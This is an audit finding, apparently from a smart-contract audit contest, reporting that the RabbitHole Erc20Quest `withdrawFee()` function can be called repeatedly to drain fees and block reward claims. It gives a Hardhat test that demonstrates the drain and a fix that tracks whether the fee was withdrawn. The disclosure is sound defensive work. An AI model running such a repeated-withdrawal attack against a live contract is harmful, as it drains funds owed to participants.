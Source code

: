# Protocol fee could be withdraw multiple times by anyone
## Lines of code
https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Erc20Quest.sol#L102

## Vulnerability details
## Impact
The ERC20 quest protocol fee can be repeatedly withdrawn. Although the fee recipient's address is immutable and fees protected from theft, the lack of access control in the `withdrawFee()` function means that anyone can call it multiple times, potentially causing damage to the claim process.

## Proof of Concept
The `Erc20Quest` contract has the ability to account protocol fees based on the number of participants in a quest. There is a `withdrawFee()` function for transferring these fees to a recipient address, which is immutable and set in the constructor.

```solidity
File: Erc20Quest.sol

100:     /// @notice Sends the protocol fee to the protocolFeeRecipient
101:     /// @dev Only callable when the quest is ended
102:     function withdrawFee() public onlyAdminWithdrawAfterEnd { 
103:         IERC20(rewardToken).safeTransfer(protocolFeeRecipient, protocolFee());
104:     }
```
The "withdrawFee()" function lacks proper checks to ensure that the fee has not already been withdrawn, and also lacks access control. This creates a potential vulnerability where a malicious actor could repeatedly call the function, leading to a reduced token balance in the contract and potentially disrupting the claim functionality.

Following test shows how multiple withdraw bleaks claim process:

quest-protocol/test/Erc20Quest.spec.ts
```solidity
  describe('withdrawFee() multiple times', async () => {
    it.only('Could transfer protocol fees back to owner multiple times', async () => {
      const beginningContractBalance = await deployedSampleErc20Contract.balanceOf(deployedQuestContract.address)

      await deployedFactoryContract.connect(firstAddress).mintReceipt(questId, messageHash, signature)
      await deployedQuestContract.start()
      await ethers.provider.send('evm_increaseTime', [86400])
      expect(await deployedSampleErc20Contract.balanceOf(protocolFeeAddress)).to.equal(0)

      expect(await deployedQuestContract.protocolFee()).to.equal(200)
      expect(await deployedSampleErc20Contract.balanceOf(deployedQuestContract.address)).to.equal(
        totalRewardsPlusFee * 100
      )
      await ethers.provider.send('evm_increaseTime', [100001])
      for (var i = 0; i < totalParticipants * 6 * 100; i++) {
        await deployedQuestContract.withdrawFee()
      }
      expect(await deployedSampleErc20Contract.balanceOf(deployedQuestContract.address)).to.equal(0)
      await expect(deployedQuestContract.connect(firstAddress).claim()).to.be.revertedWith(
        'ERC20: transfer amount exceeds balance'
      )

      await ethers.provider.send('evm_increaseTime', [-100001])
      await ethers.provider.send('evm_increaseTime', [-86400])
    })
  })
```
## Recommended Mitigation Steps
Consider adding a boolean variable that tracks the status of the protocol fee and check it in "withdrawFee()" function:
```solidity
    function withdrawFee() public onlyAdminWithdrawAfterEnd { 
        require(!feeWithdrawn, "Fee has already been withdrawn.");
        feeWithdrawn = true;
        IERC20(rewardToken).safeTransfer(protocolFeeRecipient, protocolFee());
    }
```
## Link to origin issue
https://github.com/code-423n4/2023-01-rabbithole-findings/issues/473